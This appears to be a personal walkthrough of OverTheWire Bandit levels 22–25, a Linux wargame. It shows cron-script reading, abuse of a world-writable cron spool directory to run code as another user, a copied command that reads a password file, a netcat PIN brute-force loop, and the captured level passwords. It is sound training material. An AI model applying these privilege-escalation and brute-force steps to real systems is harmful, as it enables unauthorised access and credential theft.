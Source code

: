 ## Level 22 --> 23

- Given: *A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.*
- SSH in as usual
- `cat /etc/cron.d/cronjob_bandit23`
- `cat /usr/bin/cronjob_bandit23.sh`
- Hardcoding `bandit23` in place of `$(whoami)`: `cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)` -> `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

## Level 23 --> 24

- NOTE: This is one of those that I think I will be able to provide a much better solution for the next time around.
- NOTE: Lots of copy-paste in documenting this one. There's bound to be some inaccuracies.
- Given: *A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.*
- SSH in as usual
- `bandit24`'s scripts directory (`/var/spool/bandit24/foo/`; containing scripts to be executed and deleted by their cronjob script) appears misconfigured to allow non-owner and non-group write and execute permissions (determined via `ls -l /var/spool/bandit24/`). We will exploit this.
  - `mktemp -d /tmp/XXX` (create a working directory for ourselves)
  - Create a script (`/tmp/XXX/b23`) that we will write (copy) to `bandit24`'s scripts directory, which we know we can do because it is writable
```bash
#!/bin/bash
echo $(find) > /tmp/XXX/b23out.txt
```
  - `cp /tmp/XXX/b23 /var/spool/bandit24/foo/`
  - Wait for our script to be executed by `bandit24`'s cronjob script
  - Once executed (and automatically deleted), our script lists all other files in the directory that were just present when it was executed
  - NOTE: I wonder if we can use `netcat` or something to see if we can run commands as `bandit24`
  - Let's see if we can find any interesting text from the files we were able to find: `for file in $(cat /tmp/0Zr.txt); do echo ---------------$file; cat /var/spool/bandit24/foo/$file; done`
    - I spot this rather interesting line toward the end of the output: `echo | cat /etc/bandit_pass/bandit24 >> /tmp/pw` coming from `/var/spool/bandit24/foo/102983scfec/myscript.sh`
    - `cat /var/spool/bandit24/foo/102983scfec/myscript.sh` -> `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

## Level 24 --> 25

- NOTE: Explore different solutions
- Given: *A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.*
- SSH in as usual
- `netcat -N localhost 30002 < <(for i in {0..9999}; do printf "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 %.4d\n" $i; done)` -> `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

## Level 25 --> 27
